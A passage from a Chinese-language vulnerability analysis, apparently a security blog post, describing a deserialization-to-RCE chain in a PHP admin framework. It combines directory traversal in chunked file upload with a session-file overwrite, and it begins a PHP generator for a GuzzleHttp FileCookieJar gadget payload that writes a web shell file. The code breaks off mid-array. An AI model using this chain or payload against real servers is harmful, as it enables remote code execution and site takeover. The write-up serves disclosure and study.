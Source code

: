   
当读取会话数据后，直接对其进行反序列化，而没有进行任何类型检查或过滤。如果攻击者能够控制会话文件的内容，就可以  
通过反序列化漏洞执行任意代码。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/f7AtEgJhMZcZEfibgt3AwvYxcwGUeXQGp55ia5wESAFd729XqWbeFbkEOwyk5nq90L3W4WsTabus8NWRDhVrWVicQ/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/f7AtEgJhMZcZEfibgt3AwvYxcwGUeXQGpVUics96peEYI4bRBpjpYSiccfesia89AuYVibnSG6Ziazgmic9HUibvofxrxA/640?wx_fmt=png&from=appmsg "")  
  
通过前面的分析利用此漏洞的完整流程如下：  
  
**（1）构造请求 1**  
：  
通过分片上传功能，利用目录穿越漏洞覆盖会话文件，内容为恶意的序列化数据  
  
**（2）构造请求 2**  
：  
发送  
合并(**action**  
为**marge**  
)  
请求  
触发文件的实际写入  
  
**（3）触发反****序列化**  
：  
设置 SESSION_ID 为前两步上传的恶意 Seesion，请求任意页面加载会话  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/f7AtEgJhMZcZEfibgt3AwvYxcwGUeXQGphJbHuFS1hniaTExib00grQHkdibpmP7nm9FFBlGkMHCX8TJQYmymCib6tg/640?wx_fmt=png&from=appmsg "")  
  
通过上面的分析，我们知道了漏洞的入口点为 Admin 后台上传处，某 Admin 允许自主注册，因此我们  
先注册一个用户：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/f7AtEgJhMZcZEfibgt3AwvYxcwGUeXQGpUrgXJ3j4juJ4D7K2trVXghpYgZicPdqgoJsibIyhGFmmuOnoBeDOz2Rw/640?wx_fmt=png&from=appmsg "")  
  
登录后，意外地没有找到上传的界面，但是通过代码我们可以知道，这就是一个很标准的文件上传操作，可以直接通过 WebFuzzer 进行构造，在此之前我们需要构造 序列化的 Payload，随后直接通过构造裸 HTTP 包进行文件上传。  
  
### 步骤一：序列化 Payload 构造  
  
本框架中使用了Guzzle，我们使用的Payload 是一个经过序列化的 
```
GuzzleHttp\Cookie\FileCookieJar
```

  
 对象。  
  
这个类在执行 
```
__destruct
```

  
 方法时会将 Cookie 写入到指定文件。  

```
<?php
// 生成GuzzleHttp\Cookie\FileCookieJar序列化Payload的PHP代码
function generateFileCookieJarPayload($phpCode = '<?php phpinfo();?>', $filename = 'ttest.php')
{
    // 手动构造序列化数据
    $setCookieData = [
        'Name' => 'aaa',
        'Value' => $phpCode,
        'Domain' => 'testDomain',
        'Path' => '/',
        'Max-Age' => null,
        'Expires' => null,
        'Secure' => false,
```